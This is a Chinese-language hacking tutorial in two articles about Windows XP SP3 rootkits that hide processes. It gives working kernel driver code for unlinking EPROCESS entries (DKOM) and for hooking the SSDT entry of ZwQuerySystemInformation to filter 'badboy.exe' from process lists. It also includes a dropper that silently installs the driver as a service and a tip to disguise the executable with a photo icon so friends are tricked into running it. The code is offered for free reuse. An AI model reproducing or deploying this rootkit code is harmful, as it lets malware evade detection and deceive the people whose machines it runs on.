Windows 在内核中使用一个 EPROCESS 结构表示一个进程内核对象。EPROCESS 结构很长，而且没有文档说明。…在下面的叙述中，我们只用到其中的两个字段：一是位于偏移 +0x088 的 ActiveProcessLinks 字段，一是位于偏移 +0x174 的 ImageFileName 字段。前者是一个 LIST_ENTRY 结构，后者是一个长度为16字节的缓冲区。LIST_ENTRY 结构定义如下：

```c
typedef struct _LIST_ENTRY {
    struct _LIST_ENTRY *Flink;
    struct _LIST_ENTRY *Blink;
} LIST_ENTRY, *PLIST_ENTRY;
```

系统正常运行时同时会有许多活动进程，每一个进程都对应着一个 EPROCESS 结构。这些结构并不是孤立存在的，它们在内存中被组织为一个环状的双向链表。如图1所示。系统本身也是通过遍历这个链表而得到相关进程的信息的。组成链表的关键点就是其中包含了一个 LIST_ENTRY 结构。这个结构的两个成员分别指向前一个与后一个 EPROCESS 结构的 LIST_ENTRY 字段。这就是位于偏移 +0x088 处 ActiveProcessLinks 字段的作用。


我们也知道，每个进程都有一个名字。这个名字通常是进程位于文件系统中映像文件的名字。这个名字的一部分或者全部被存储在位于偏移 +0x174 处 ImageFileName 字段。ImageFileName 字段本身是一个长度为16字节的缓冲区，而文件系统中映像文件的文件名可以很长，远远不是16字节的缓冲区可以完整表示的，所以我说名字的一部分或者全部被保存在这里。具体的规则却是隐晦的。

再次强调，以上所谈及的两个字段的偏移是与操作系统相关的，不同的操作系统，甚至应用不同 Service Pack 都有可能改变偏移量，上面的数据是特定于 Windows XP SP3 的，这也说明了在编写 Rootkit 时判定目标操作系统的重要性。在内核态中运行的程序可以调用 PsGetVersion() 函数获取操作系统的版本。

在内核态下，程序总是可以调用 PsGetCurrentProcess() 函数获得代表当前进程的 EPROCESS 结构的地址。通过这个地址，基于上面对 LIST_ENTRY 结构，我们可以遍历内核中环形的 EPROCESS 链表。通过比较 ImageFileName 字段判断结构所代表的进程，并对此链表做“适当”的修改，使代表特定进程的 EPROCESS 结构从链表中脱离，从而达到隐藏进程的目的。

在之前的文章中我已经谈过如何将驱动程序加载到内核中并执行的方法，在此不再赘述了。要补充的一点是，凡是通过 SCM 安装并执行的驱动程序调用 PsGetCurrentProcess() 获得的 EPROCESS 结构地址总是指向进程“System”的，也就是系统进程。基于正常加载的驱动程序具有的这个特性，可以定义一个在不同操作系统通用的发现 ImageFileName 字段偏移的函数，即下面的 GetOffsetImageFileName() 函数。

```c
DWORD GetOffsetImageFileName(void){
    DWORD offset;
    DWORD cProc;

    cProc=(DWORD)PsGetCurrentProcess();
    for(offset = 0; offset < 0x200; offset++){
        if(!strncmp("System", (char*)(cProc+offset), strlen("System"))){
            return offset;
        }
    }
    return 0;
}
```

代码是很简单的，就是通过单纯的内存比较确定偏移地址，读者都是聪明人，所以我不多讲了。

如何从自身所在进程的 EPROCESS 结构遍历到目标

## 神秘园

EPROCESS结构呢？为此，我编写了 `FindProcessEPROC()` 函数。代码如下：

EPROCESS结构的地址是最最关键的，以上函数完成了几乎所有的工作，理解这个函数对于进一步理解下面的内容至关重要。

```c
DWORD FindProcessEPROC(char* name, size_t len, ULONG offset) {
    DWORD eproc = 0;
    char* currname;
    char* startname;
    DWORD nCount;
    PLIST_ENTRY plist_active_procs;

    currname = startname = 0;
    nCount = 0;
    eproc = (DWORD)PsGetCurrentProcess();
    currname = startname = (char*)(eproc + offset);
    while (1) {
        if (!memcmp(name, currname, len)) {
            return eproc;
        } else if ((nCount > 0) && (!memcmp(currname, startname, len))) {
            return 0;
        } else {
            plist_active_procs = (PLIST_ENTRY)(eproc + OFFSET_LIST_ENTRY);
            eproc = ((DWORD)plist_active_procs->Flink) - OFFSET_LIST_ENTRY;
            currname = (char*)(eproc + offset);
            nCount++;
        }
    }
}
```

说一点题外话，很多初涉驱动编程的人都会对内核导出函数的命名方式表示惊奇，它们都有一个类似于“Ps”、“Io”、“Rtl”等简短前缀，这个前缀使函数便于归类。比如以“Ps”开头的函数必然与进程（Process）有关，以“Rtl”开头的函数必然是“Runtime”系列实用函数等等。更多此类信息可以从 WDK 文档中获得。

实际的代码大致是怎样写的呢？首先，指定参数调用 `FindProcessEPROC()` 函数，设置要隐藏的进程名、名字的长度，以及名字在 EPROCESS 中的偏移量。当此函数返回后，必不可少的一步是判断其返回值是否是非零的，否则给出一条提示并终止。接下来，通过已知的 EPROCESS 地址和链表结构的偏移量修改链表：使前一个链表的后继成为后一个链表，后一个链表的前驱成为前一个链表。重要的是，把自身的前驱后继指针都修改为指向本身。这样一番修改后，目标 EPROCESS 就从链表中脱离了。此后系统在因为需要查询信息从而遍历链表的时候就不会再遍历到目标进程，于是进程的存在被隐藏了。

以上的说明还是较为笼统而抽象的，接下来我通过分析我为本文准备的一个较为实用的隐藏进程的 Rootkit 示例，来进一步演示 DKOM 技术的典型应用。在示例中，我们在驱动程序初始化过程中创建了一个新的系统线程，其线程函数每隔相同时间间隔后遍历 EPROCESS 链表一次，从中查找进程名以“TTT”开头的进程，并将其隐藏。代码中涉及的几个新的内核导出函数将在其出现的时候进行详细说明。因篇幅所限，文章这里就不粘贴完整代码了，但仍然建议读者一边对照本文附带的完整代码一边阅读此分析。

首先看下驱动程序的初始化代码。

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriverObject,
                     IN PUNICODE_STRING pRegistryPath)
{
    NTSTATUS Status;
    HANDLE Thread;
    g_nBingo = 0;
    pDriverObject->DriverUnload = OnUnload;
    KeInitializeEvent(&g_WaitEvent, SynchronizationEvent, FALSE);
    Status = PsCreateSystemThread(&Thread, 0L, NULL, NULL, NULL, DelayCheck, NULL);
    if (NT_SUCCESS(Status)) {
        ...
    }

    return STATUS_INVALID_PARAMETER;
    }

    ZwClose(Thread);
    return STATUS_SUCCESS;
}
```

这个函数基于给定的名字，通过比较 `ImageFileName` 字段发现目标进程，正如我们之前提到的那样。程序首先通过 `PsGetCurrentProcess()` 函数得到当前的 EPROCESS 结构地址；然后遍历链表，寻找其中 `ImageFileName` 字段为 name 的 EPROCESS 地址，找到则返回，找不到返回 0 值；通过 `LIST_ENTRY` 的 `Flink` 字段跳到下一个 EPROCESS 结构中去。其中的宏 `OFFSET_LIST_ENTRY` 等于 `0x88`。值得一提的是，EPROCESS 结构构成的链表是首尾相连的，所以在 `nCount` 大于 0 并且当前 EPROCESS 和最初开始时得到的 EPROCESS 相等的时候退出循环。

其中 `g_nBingo` 与 `g_WaitEvent` 是全局变量。前者用于控制将要创建的系统线程的终止过程，后者是一个“事件对象”，与前者配合使用。

在初始化过程中，我们设置了一个 `OnUnload` 例程，然后初始化了一个事件对象，并创建了一个系统线程。然后关闭了系统线程的句柄。文中“系统线程”属于进程“System”，与用户模式线程创建形式类似，但属于内核态线程、权限更高。创建线程时指定了线程函数 `DelayCheck()`，线程函数负责隐藏进程的全部功能。

“事件对象”用于线程同步。通过 `KeInitializeEvent()` 初始化一个 `KEVENT` 类型变量（全局），状态可为 TRUE/FALSE；通过 `KeSetEvent()` 可修改状态。调用 `KeWaitForSingleObject()` 时，若事件状态为 FALSE 则阻塞，直到变为 TRUE 才返回。以上函数原型如下：

```c
VOID KeInitializeEvent(
  IN PRKEVENT Event,
  IN EVENT_TYPE Type,
  IN BOOLEAN State
);

LONG KeSetEvent(
  IN PRKEVENT Event,
  IN KPRIORITY Increment,
  IN BOOLEAN Wait
);

NTSTATUS PsCreateSystemThread(
  OUT PHANDLE ThreadHandle,
  IN ULONG DesiredAccess,
  IN POBJECT_ATTRIBUTES ObjectAttributes,
  ...
);

NTSTATUS KeWaitForSingleObject(
  IN PVOID Object,
  IN KWAIT_REASON WaitReason,
  IN KPROCESSOR_MODE WaitMode,
  IN BOOLEAN Alertable,
  IN PLARGE_INTEGER Timeout OPTIONAL
);
```

系统线程的退出方式较独特：需要等待操作系统关闭，或在所属进程退出时一并退出，或在线程函数中调用 `PsTerminateSystemThread()` 自行退出。驱动卸载时必须关闭自建系统线程，否则会出现资源未回收等问题。

示例通过在 `OnUnload` 中设置全局变量 `g_nBingo` 来通知线程退出：初始化时 `g_nBingo=0`，线程循环检测其值；在 `OnUnload` 中置为 1，随后在 `KeWaitForSingleObject()` 中等待线程函数发回可退出信号。线程退出前设置事件对象，`OnUnload` 阻塞解除，驱动安全卸载。

作者补充：理论上可在 `OnUnload` 阻塞解除后再等待一小段时间以确保线程结束，但实测无异常，示例未加入额外延时；需要者可自行添加空循环延时。

下面给出卸载例程 `OnUnload()` 与线程函数 `DelayCheck()` 的代码：

```c
void OnUnload(PDRIVER_OBJECT pdriver_object)
{
    g_nBingo = 1;
    KeWaitForSingleObject(&g_WaitEvent, Executive, ...);
}
```

```c
void DelayCheck(void* Context)
{
    ULONG offset;
    char name[] = "TTT";
    int namelen = 3;
    DWORD eproc = 0;
    PLIST_ENTRY plist_active_procs;
    LARGE_INTEGER interval;

    interval.QuadPart = (-10) * 1000 * 100;
    offset = 0x174;
    while (1)
    {
        eproc = FindProcessEPROC(name, namelen, offset);
        if (eproc)
        {
            plist_active_procs = (PLIST_ENTRY*)(eproc + OFFSET_LIST_ENTRY);
            *((DWORD*)plist_active_procs->Blink) = (DWORD)(plist_active_procs->Flink);
            *((DWORD*)plist_active_procs->Flink + 1) = (DWORD)(plist_active_procs->Blink);
            plist_active_procs->Flink = (PLIST_ENTRY*)(&(plist_active_procs->Flink));
            plist_active_procs->Blink = (PLIST_ENTRY*)(&(plist_active_procs->Flink));
        }

        if (g_nBingo == 1)
        {
            KeSetEvent(&g_WaitEvent, SynchronizationEvent, TRUE);
            PsTerminateSystemThread(STATUS_SUCCESS);
        }

        KeDelayExecutionThread(KernelMode, 0, &interval);
    }
}
```

通过上面的叙述，想必读者对 `OnUnload()` 已经很明白了。下面重点放在 `DelayCheck()` 上。函数的主体代码是一个无限循环。在循环中，首先使用 `FindProcessEPROC()` 尝试获得一个名称以“TTT”前缀开头的进程的 EPROCESS 结构地址，检查获得的 `eproc` 值是否有效，有效的话，做出一番修改，使得此结构脱离链表，否则什么也不做。然后，函数检查变量 `g_nBingo` 是否被设置，设置的话就退出。

这套简单的机制在上文中描述得很详尽了。最后，通过调用 `KeDelayExecutionThread()` 函数，在开始下一轮循环之前稍微“休息”一会儿。最后的延时很重要，通过比较无延时和有延时的不同表现就可以知道：无延时情况下，只要此驱动在运行，CPU 使用率就必定是 100%，全部被“System”进程占有。这样的话，系统性能被严重影响。有延时，表现良好，一切正常如从前，只是任务管理器中少显示了几个进程信息，呵呵。修改链表的代码貌似很复杂，实际上很简单，无非是把当前节点从链表中删掉，并将当前节点的前驱后继都指向本身。基于之前给出的对此段代码功能的表述，聪明的读者应该很容易理解它们。然后，给出陌生函数的原型。

```c
NTSTATUS KeDelayExecutionThread(
    IN KPROCESSOR_MODE WaitMode,
    IN BOOLEAN Alertable,
    IN PLARGE_INTEGER Interval
);
```

再允许我说点题外话，我向来不喜欢在文章中不描述某个函数的用法，因为这是一篇技术文章，不是函数用法参考文档，况且篇幅有限。所以我更多地把描述重心放在代码段功能上，而不是放在如何调用某某函数上。具体的函数调用方法完全可以通过函数参考文档获得完整了解。可这种讲述方式可能使一部分读者感到困惑。若读者不习惯我的风格，还望见谅。

至此，读者应该基本理解了上述采用 DKOM 技术隐藏进程的方法。读者可以将上述示例程序自由使用，更改代码逻辑以增加更强大的功能，秉承传统黑客精神，与大家分享自己的代码。

在文末再介绍一个使用工具吧，通过它可以很方便地将驱动加载并运行。工具名字叫做 InstDrv，运行后显示一个小小的对话框，要求手工输入驱动的绝对地址。建议读者将驱动放到本地磁盘根目录下，这样省事些。四个按钮的功能很简单，分别是：

- 安装
- 启动
- 终止
- 删除

基本用法是，首先安装，安装时工具根据驱动程序名生成一个服务名，安装成功后就可以单击启动按钮。启动的过程就是执行 `DriverEntry()` 的过程。对于启动的驱动，可以随时终止，当然前提是驱动必须注册了 `OnUnload` 例程。删除按钮就是将驱动及其注册的服务从系统中删除。有了这样一个小工具后，在试运行自制的 Rootkit 时就很方便了。当然，这个工具不是我的作品。其实自己动手做一个也很简单，有兴趣的读者可以试着做做。

## 消失的进程

### ——通过挂钩SSDT隐藏进程

听风

记得之前应朋友要求做过一个小小的恶搞程序，那个程序执行后，在全屏幕上的随机位置画出随机颜色的点，使屏幕模糊了，效果就像是电视没有信号时的雪花一样，不过是彩色的。这个程序恶搞没有害处，但是会让一般人大吃一惊。

当初的程序不是很完美，只要一个眼疾手快的人打开任务管理器，将那个进程强制终止掉就结束了。这段时间学了点 Rootkit 的东西，在了解了如何通过 Rootkit 隐藏进程后，就想着把之前的程序重新做一遍。于是，一个无法通过任务管理器终止的恶搞程序第二版就做出来了。在本文中，我将以此为例，详细讨论程序中采用的通过 Rootkit 隐藏进程的方法。需要注意的是，本文范例程序只能在 Windows XP SP3 下执行，在 Windows 7 下运行会导致蓝屏错误。

可能有些读者希望在继续阅读文章之前先试下效果。那么，请读者首先将本文附带的 `pslist.exe` 和 `pskill.exe` 两个小工具复制到 `Windows\System32` 目录中，然后打开一个命令行窗口，并运行 `badboy.exe`。读者会看到满屏的雪花迅速掩盖了一切。嗯，当读者觉得满足了以后，在命令行窗口依次输入命令：

```bash
pslist
net stop hideboy
pslist
pskill badboy.exe
```

然后滚动一下命令行窗口，把雪花去掉。可以看到第一次运行 `pslist` 工具输出的进程列表，似乎没有 `badboy.exe` 一项。执行 `net stop hideboy` 的作用是停止 Rootkit 提供的功能。停止了 Rootkit 提供的服务后，进程就被显示出来了，所以再次运行 `pslist` 工具显示的结果可以看到 `badboy.exe` 进程。最后，`pskill` 终止掉这个进程。读者还可以在做这些之前打开任务管理器以观察任务管理器的变化，当然任务管理器在驱动服务运行期间也不会显示 `badboy.exe` 进程。还可以把前面要输入的那些命令编成一个批处理文件，这样也许更好些。

看到实际效果后，读者也许会对本文更加感兴趣。所以，闲言碎语不多讲，直接进入主题。

本文讨论的是通过挂钩 SSDT 以隐藏进程的方法，这是 Rootkit 进程隐藏技术中较为基础的方法。那么，什么是 SSDT 呢？

SSDT 就是 System Service Dispatch Table 的缩写，译为系统服务调度表。好吧，它有什么用呢？我们知道，应用程序要完成有用的功能，不使用系统服务是不可能的。操作系统提供的系统服务有两个基本特点：其一是数目巨大，其二是具有明显的层次。数目巨大是人所共知的，所谓有明显的层次又是怎么回事呢？初接触 Win32 程序设计的人一定会被数目庞大的 API 所震撼，这些 API 完成的功能包罗万象。可是，这就是操作系统提供的系统服务的全部吗？非也非也。殊不知在 API 的背后，其实是另一些函数在完成实际的工作，API 只是将这些函数封装得更加友好了。这些 API 就是由 `ntdll.dll` 动态链接库导出的称为 Native API 的函数。API 的背后是 Native API，但 Native API 并不是终点。为数众多的 Native API 又调用了怎样的代码发挥作用呢？这些代码便是位于内核中的、由操作系统内核导出的函数。也就是说，API 的背后是 Native API 在发挥作用，Native API 的背后又是操作系统内核导出函数在发挥作用。这样的说法虽算不上十分准确，但还是可以说明这样一个基本事实——操作系统的系统调用是分层的，许多貌似通过 API 完成的工作其实都是由更低级的代码完成的，操作系统内核导出函数在系统服务的集合中处在很低级的位置中。

SSDT 说白了，就是一张表格，就是一个数组结构，它包含了众多系统内核导出的函数地址。通过特定的索引访问 SSDT 的特定项目，就能得到特定函数的地址，然后通过这个地址调用对应函数，执行特定功能。SSDT 是由内核 `ntoskrnl.exe` 导出的表。系统启动初期，内核创建并初始化 SSDT。从编程方面来说，没必要了解关于内核创建 SSDT 的全部知识，得到 SSDT 的地址并修改 SSDT 是我们的全部目的。我们只要在自己程序中指定一个名为 `KeServiceDescriptorTable` 的变量，并指定它是一个从外部导入的符号，然后链接器就会替代我们完成所有工作。

在明白了 SSDT 的含义后，怎么通过挂钩 SSDT 完成进程隐藏呢？简而言之，应用程序必须通过系统功能调用来获取当前系统中活动进程的信息；内核提供的查询活动进程信息函数的地址被保存在 SSDT 中；我们可以将 SSDT 中原有的函数地址替换成自定义函数的地址，从而使今后任何对于查询系统活动进程信息的请求都会被我们的自定义函数接受并处理。我们在自定义函数之内调用原先的查询函数，并修改此查询函数返回的结果。这就是所谓的挂钩 SSDT 隐藏进程的原理。

## 神秘园

用户模式的系统调用七拐八拐后，从用户态到内核态，最终必然由内核的导出函数 **ZwQuerySystemInformation()** 完成底层的实际查询工作。从这个函数名字就可以看出，它被用来查看操作系统的很多信息，至于查询的信息类型是由其参数决定的。这个函数做了些什么呢？这个函数其实也只是个包装函数，它的功能不过是通过一个特定的索引值，从 SSDT 中取得一个函数地址，并调用那个登记在 SSDT 中的查询函数。这点在上文我们也提到过了。ZwQuerySystemInformation() 这个函数的重要性在于，它的代码中包含了实际的查询函数在 SSDT 中的索引值。我们要从 ZwQuerySystemInformation() 函数中取得索引值，并通过这个索引值定位 SSDT，并作修改。

泛泛而谈的原理性介绍难以包含技术细节。下面一边分析代码，一边更进一步地讨论问题。首先看下那个小小的恶搞程序：

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine, int nCmdShow)
{
    int nScreenX, nScreenY;
    HDC ghDC;

    HideMyself();
    ghDC = GetWindowDC(NULL);
    if (ghDC == NULL)
    {
        MessageBox(NULL, "GetWindowDC:F", "Error", MB_OK);
        return 1;
    }
    nScreenX = GetSystemMetrics(SM_CXSCREEN);
    nScreenY = GetSystemMetrics(SM_CYSCREEN);
    srand(GetTickCount());
    while (1)
    {
        SetPixel(ghDC, rand() % nScreenX, rand() % nScreenY,
                 RGB(rand() % 255, rand() % 255, rand() % 255));
    }
    /* NeverReturn */
    return 0;
}
```

这段程序依次获取了全屏绘图句柄，以及屏幕的尺寸；最后循环调用 SetPixel() 在全屏任意坐标画任意颜色的点，代码很简单，多说无益。

友人交流，对方谈及如何隐藏应用程序建立的 CMD 窗口的问题。方法其实很简单，因为操作系统自动为命令行程序打开一个窗口，所以在新建工程的时候把工程指定为 Windows 窗口程序即可，虽然我们在代码中并不创建窗口。这样设置后，程序的入口函数应当被指定为 WinMain()。

代码中 HideMyself() 函数的功能是启动 Rootkit 功能，代码如下：

```c
int HideMyself(void)
{
    HRSRC hrResFile;
    DWORD dwResSize;
    HGLOBAL hgResFile;
    LPVOID lpResFile;

    HANDLE hFile;

    SC_HANDLE hScHandle;
    SC_HANDLE hSrvHandle;
    char lpFilePath[MAX_PATH];

    hrResFile = FindResource(NULL, "hideboy", RT_RCDATA);
    dwResSize = SizeofResource(NULL, hrResFile);
    hgResFile = LoadResource(NULL, hrResFile);
    lpResFile = LockResource(hgResFile);

    hFile = CreateFile(".\\hideboy.sys", GENERIC_READ | GENERIC_WRITE,
                       0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, lpResFile, dwResSize, &dwResSize, 0);
    CloseHandle(hFile);

    hScHandle = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    GetCurrentDirectory(MAX_PATH, lpFilePath);
    strcat(lpFilePath, "\\hideboy.sys");
    hSrvHandle = CreateService(hScHandle,
                               "hideboy",
                               "Hideboy",
                               SERVICE_ALL_ACCESS,
                               SERVICE_KERNEL_DRIVER,
                               SERVICE_DEMAND_START,
                               SERVICE_ERROR_NORMAL,
                               lpFilePath,
                               NULL, NULL, NULL, NULL, NULL);

    if (!hSrvHandle)
    {
        if (GetLastError() == ERROR_SERVICE_EXISTS)
        {
            hSrvHandle = OpenService(hScHandle, "hideboy", SERVICE_ALL_ACCESS);
            StartService(hSrvHandle, 0, NULL);
            return 1;
        }
        else
        {
            return 2;
        }
    }
    StartService(hSrvHandle, 0, NULL);
    return 0;
}
```

这个函数主要完成两个功能，一是从资源中释放驱动程序，二是将驱动程序加载到内核。对于前一部分相信很多读者都已经轻车熟路，了然于心了，而后一部分，加载的逻辑是首先尝试安装，并启动服务。在安装失败的时候，进一步检查原因，如果是因为服务已经存在，就直接启动它。在安装服务的时候指定了服务的名字是 hideboy，这也就是为什么停止服务可以在命令行下输入 `net stop hideboy` 的原因了。

代码中没有体现的一个小技巧我想在此说明一下。有可能读者已经注意到，本文提供的编译好的程序有个可爱的小鸟图标。其实使自己的程序具有图标很简单，就是要在定义资源的时候指定一个图标，在资源定义时可能会定义很多图标，那么应用程序显示的图标永远是所有已定义的图标中的第一个，也就是最先定义的那个。这里涉及的一点黑客小技巧便是，读者完全可以指定一个图片文件的图标作为应用程序的图标，这样的程序将更具有迷惑性。你可以对你的朋友说这是谁谁的照片，朋友一旦双击，便中计了。

用户模式下的代码很是简单，当然也不是本文讨论的重点。下面我们将深入讨论运行于内核部分的驱动程序的实现。

在之前的文章中我已经说明过驱动程序是如何加载到内存并执行的，这里简单回顾一下。首先，驱动程序多使用 C 语言编写，使用 WDK 提供的 Build 工具进行构建。每个驱动程序都有一个必须的 DriverEntry() 入口函数和一个可选的 OnUnload 例程。安装并加载执行驱动程序的正确方法是调用 SCM 提供的几个函数，这些函数完成了所有的工作。当驱动程序被加载的时候，系统自动调用驱动的入口函数，驱动程序常在这里完成些初始化的过程。基本的就是这些了。

我们这里的入口函数很简单，主要完成两个工作，一是把 SSDT 表中原函数地址保存下来，这为的是在驱动程序卸载的时候还原 SSDT，避免系统崩溃；二是改写 SSDT。代码的最开始设置了当此驱动程序卸载时执行的函数，这是为了顺利将其卸载所必须的步骤。代码如下：

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriverObject,
                     IN PUNICODE_STRING pRegistryPath)
{
    pDriverObject->DriverUnload = OnUnload;
    OrgZwQuerySystemInformation =
        (ZWQUERYSYSTEMINFORMATION)(KeServiceDescriptorTable.ServiceTableBase[*((PULONG)((PUCHAR)ZwQuerySystemInformation + 1))]);
    KeServiceDescriptorTable.ServiceTableBase[*((PULONG)((PUCHAR)ZwQuerySystemInformation + 1))] =
        ModZwQuerySystemInformation;
    return STATUS_SUCCESS;
}
```

啊，两个令人抓狂的赋值语句。OrgZwQuerySystemInformation 是一个全局变量，其类型是 ZWQUERYSYSTEMINFORMATION，这个类型又被定义为：

```c
typedef NTSTATUS (*ZWQUERYSYSTEMINFORMATION)
(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
```

我们使用这个全局变量保存 SSDT 中原始地址。ZwQuerySystemInformation 是从外部导入的函数，它的原型为：

```c
NTSYSAPI NTSTATUS NTAPI ZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength
);
```

需要提醒读者注意的是 NTSYSAPI 以及 NTAPI 这两个宏不能省略。第一个宏最后被定义为 `__declspec(import)`，这指出这个函数是外部导入的。NTAPI 宏被定义为 `__stdcall`，表明了函数的调用方式。再次提请读者注意，这两个宏不可省略。代码中的 KeServiceDescriptorTable 可以等价地视为 SSDT。SSDT 具有一定的结构，定义如下：

```c
#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t;
#pragma pack()
__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
```

其中 `#pragma pack()` 杂注指令指定了结构对齐单位，这里指定为 1 个字节。更多的关于此杂注指令的信息，读者可自行在网络上寻找。然后，我们定义了 KeServiceDescriptorTable，并指出这是个外部导入的符号。

注意，KeServiceDescriptorTable 这个名字是特定的，不能改为其他。其实驱动 Build 的过程也就是编译链接的一个过程，C 语言程序皆如此。驱动构建的一个特殊之处是它在链接时使用了 ntoskrnl.lib 这个库。这个库较为特殊，包含了操作系统内核导出的很多东西，KeServiceDescriptorTable 这个名字也是由此库导出的一个符号。

值得一提的是，参考例程在这里使用了较复杂的机制来改写内存的读写属性，因为书作者认为 SSDT 所在的内存区域是有访问限制的。但我实践发现，即使这里什么都不做，程序也可以正常运行，这样一来就省略了许多代码。有资料称 SSDT 所在的内存区域被标记为只读的，我在实践中发现 SSDT 可以直接被修改，其中原因，还有待进一步研究。顺带说明一下，我的测试系统是 Windows XP SP3。

对于之前的讨论，有个模糊的地方，这里再详细叙述一番。我们已经知道 ZwQuerySystemInformation() 函数通过一个索引值从 SSDT 中取得特定函数地址，但却没有仔细说明我们如何从 ZwQuerySystemInformation() 函数中得到这个索引值。对 ZwQuerySystemInformation() 函数进行反汇编后发现，这个函数是以 `mov eax, 0XXXXXXXXh` 开头的。其中 `0XXXXXXXXh` 就是索引值。这条汇编语句汇编成机器码后有五个字节。取得 ZwQuerySystemInformation() 函数的地址，将其强制转换为 `char*` 类型的指针，将可执行的机器码看做是数据，那么现在就有了指向第一字节，也就是移动数据的指令的操作码的地址，将此地址加 1，然后将其指向 4 字节长的索引值。再将此指针强制转换为 `int*` 类型的指针，并取其值，这样就得到了索引值。理解这段描述的关键在于知晓函数地址指向函数代码的第一字节，而此函数开始的第二个到第五个字节恰好包含了所需的数据。这样是不是就能理解 `*((PULONG)((PUCHAR)ZwQuerySystemInformation+1))` 的意思了呢？然后以这个索引值为偏移，进而从 KeServiceDescriptorTable 中获得函数地址。

经过以上处理，SSDT 就被修改掉了。挂钩完成后，每当有查询系统信息的需求，内核都将调用我们设置的钩子函数。下面我们就来看看钩子函数是如何实现的。首先给出钩子代码：

```c
NTSTATUS ModZwQuerySystemInformation(IN ULONG SystemInformationClass,
                                     IN PVOID SystemInformation,
                                     IN ULONG SystemInformationLength,
                                     OUT PULONG ReturnLength)
{
    NTSTATUS Status;
    PSYSTEM_PROCESSES curr, prev;

    Status = OrgZwQuerySystemInformation(SystemInformationClass,
                                         SystemInformation,
                                         SystemInformationLength,
                                         ReturnLength);
    if (NT_SUCCESS(Status)) {
        if (SystemInformationClass == 5) {
            curr = (PSYSTEM_PROCESSES)SystemInformation;
            ...
        }
    }
}
```

```c
prev = NULL;
while (curr)
{
    if (curr->ProcessName.Buffer != NULL)
    {
        if (!memicmp(curr->ProcessName.Buffer, L"badboy.exe", 20))
        {
            if (prev)
            {
                if (curr->NextEntryDelta)
                    prev->NextEntryDelta += curr->NextEntryDelta;
                else
                    prev->NextEntryDelta = 0;
            }
            else
            {
                if (curr->NextEntryDelta)
                    SystemInformation = (char *)SystemInformation + curr->NextEntryDelta;
                else
                    SystemInformation = NULL;
            }
        }
    }

    prev = curr;
    if (curr->NextEntryDelta)
        (char *)curr += curr->NextEntryDelta;
    else
        curr = NULL;
}
```

前面提到过，ZwQuerySystemInformation() 只是一个包装函数，但是鉴于它同 SSDT 中的查询函数具有相同的功能，而且 SSDT 中的查询函数也没个名字，所以在接下来的叙述中，以 ZwQuerySystemInformation() 代指 SSDT 中的查询函数了。

首先看到，此函数具有众多参数，第一个参数 SystemInformationClass 指定了要查询的信息。之前也曾提到过，ZwQuerySystemInformation() 函数可以查询很多方面的信息，具体查询哪方面的信息，便是由第一个参数指定的。对于查询系统活动进程信息，SystemInformationClass 的值是 5。所以，在钩子函数调用原始 ZwQuerySystemInformation() 函数查询结果后，首先判断 SystemInformationClass 是否为 5，否则便直接返回，不做处理。

ZwQuerySystemInformation() 函数通过缓冲区指针返回查询结果，即第二个参数 SystemInformation。对于不同的查询要求，返回的结果具有不同的结构。当 SystemInformationClass 被指定为 5 的时候，返回的结果符合 SYSTEM_PROCESSES 结构，此结构的定义如下：

```c
typedef struct _SYSTEM_PROCESSES
{
    ULONG          NextEntryDelta;
    ULONG          ThreadCount;
    ULONG          Reserved[6];
    LARGE_INTEGER  CreateTime;
    LARGE_INTEGER  UserTime;
    LARGE_INTEGER  KernelTime;
    UNICODE_STRING ProcessName;
} SYSTEM_PROCESSES, *PSYSTEM_PROCESSES;
```

要说明的是，这个结构并没有完全地描述返回结果的结构，因为它只是定义返回结果所具有结构的前几个字段，但这对于我们的程序已经足够了。原始的结构定义很长，读者可以参考本文附带的代码文件。这样的表示法包含了一个隐晦的编程技巧，读者感兴趣的话请自己品味一番吧。

返回结果包含了所有活动进程的信息，活动进程的信息被分块保存，上述结构定义仅仅部分描述了一个信息块的结构。ZwQuerySystemInformation() 函数返回的结果是一个信息块链条，通过最初的指针和块间地址增量或者称作偏移的东西动态计算出下一个信息块的地址，链条的起始信息块的地址就是 SystemInformation 的值，下一个信息块的偏移在当前信息块的 NextEntryDelta 字段中保存。

许多信息，我们只关注其中 `ProcessName` 字段，它描述了进程的名字。我们的钩子函数被设计为过滤特定名称的进程，所以这个字段对我们来说是重要的。这个字段是一个 `UNICODE_STRING` 结构，这个结构被定义为：

```c
typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, *PUNICODE_STRING;
```

其中的 `Buffer` 以宽字节字符实际存储了字符串。

钩子函数的主要代码完成遍历信息块链条的工作，找到需要隐藏的信息块，通过增加前一个信息块中 `NextEntryDelta` 字段的值，使得前一个信息块加上偏移后直接指向本信息块的下一个信息块，从而把本信息块隐藏掉，也就隐藏了相关的进程的信息。在开始比较之前，有必要首先判断当前指向的信息块的字段 `ProcessName.Buffer` 是否是空值，否则使用 `memcmp()` 函数将其同预置的名称进行比较。因为比较对象是宽字符串，所以比较长度是字符数目的二倍。在示例程序中我们指定了完整的进程名，这样只能隐藏特定于这个进程名的进程。只需要在判断条件上作出一点很小的改变就能使这个技术更加具有通用性。我参考的那份代码就使用了如下的代码进行判断。

```c
......
if (0 == memcmp(curr->ProcessName.Buffer, L"_root_", 12))
......
```

这样的话，但凡是以“_root_”开头的所有进程都将被纳入隐藏的范围。

要说明的代码就是这些了，至于那些处理链条的代码，虽然复杂些，但意义明确，就不再多费口舌了。

